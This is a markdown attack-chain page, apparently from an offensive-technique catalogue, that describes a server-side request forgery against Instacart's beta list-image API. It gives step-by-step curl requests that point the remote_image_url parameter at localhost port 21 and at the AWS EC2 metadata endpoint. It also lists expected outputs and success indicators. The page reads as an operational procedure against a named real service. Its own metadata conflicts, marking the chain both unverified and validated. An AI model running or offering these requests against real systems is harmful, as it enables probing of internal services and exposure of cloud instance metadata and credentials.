

---
tags:
  - ssrf
  - api
  - aws
  - metadata
  - internal-access
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
verified: false
platforms:
  - Web
  - AWS
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-SSRF-via-Instacart-Remote-Image-URL]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T04:08:55.134Z'
description: >-
  A multi-step attack chain exploiting a Server-Side Request Forgery
  vulnerability in Instacart's API for updating list images, allowing access to
  internal localhost services and potential AWS metadata exfiltration.
skill_level: intermediate
impact_level: high
id: 3a50feb4-b479-4d40-951c-89417229db94
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# SSRF Exploitation in Instacart List Image Update to Access Internal AWS Services

Multi-stage attack chain demonstrating a complete SSRF workflow in Instacart's API, enabling the server to connect to internal resources like localhost ports and AWS EC2 metadata endpoints.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-post-to-lists-endpoint]]

### Target Environment

- Web platform with access to Instacart beta API
- AWS-hosted services (EC2 instances)
- Open ports like 21 (SSH) on localhost

### Initial Access Requirements

- Authenticated user account on Instacart beta
- Ability to create lists via API
- Network access to https://beta.instacart.com

## Detailed Attack Procedures

### Step 1: Create List and Perform Legitimate Image Update
procedure: [[procedures/Exploit-SSRF-via-Instacart-Remote-Image-URL]]

**Objective**: Establish a valid list and confirm the API endpoint works with external image URLs, setting up for the SSRF exploitation.

**Instructions**: First, create a new list using the Instacart API (assuming prior authentication via session or token). Then, update the list image with a legitimate external URL using [[commands/curl-post-to-lists-endpoint]]:

```bash
curl -X POST https://beta.instacart.com/api/v2/lists/[LIST_ID] \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "list[remote_image_url]=https://example.com/yourimage.jpg"
```

**Expected Output**: Successful response (e.g., 200 OK) confirming the image update without errors.

**Success Indicators**:
- List created and image updated successfully
- No validation errors on external URLs

### Step 2: Forge Request to Internal Localhost and Observe Response
procedure: [[procedures/Exploit-SSRF-via-Instacart-Remote-Image-URL]]

**Objective**: Exploit the lack of URL validation to force the server to connect to an internal localhost address, revealing service banners or enabling further internal access.

**Instructions**: Modify the remote_image_url to target localhost port 21 (or other internal ports) and resubmit using [[commands/curl-post-to-lists-endpoint]]:

```bash
curl -X POST https://beta.instacart.com/api/v2/lists/[LIST_ID] \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "list[remote_image_url]=http://127.0.0.1:21"
```

For AWS metadata access, target the link-local address:

```bash
curl -X POST https://beta.instacart.com/api/v2/lists/[LIST_ID] \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "list[remote_image_url]=http://169.254.169.254/latest/meta-data/"
```

**Expected Output**: Error response indicating connection attempt, such as an SSH banner like 'SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2.3' for port 21, confirming SSRF success.

**Success Indicators**:
- Error message reveals internal service details (e.g., SSH banner)
- Potential leakage of AWS instance metadata if targeted

## Attack Chain Summary

### Key Achievements

1. Confirmed SSRF via unvalidated remote_image_url parameter in Instacart's list update API
2. Forced server connections to localhost:21, exposing SSH service information
3. Demonstrated potential for accessing sensitive AWS EC2 metadata at 169.254.169.254

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
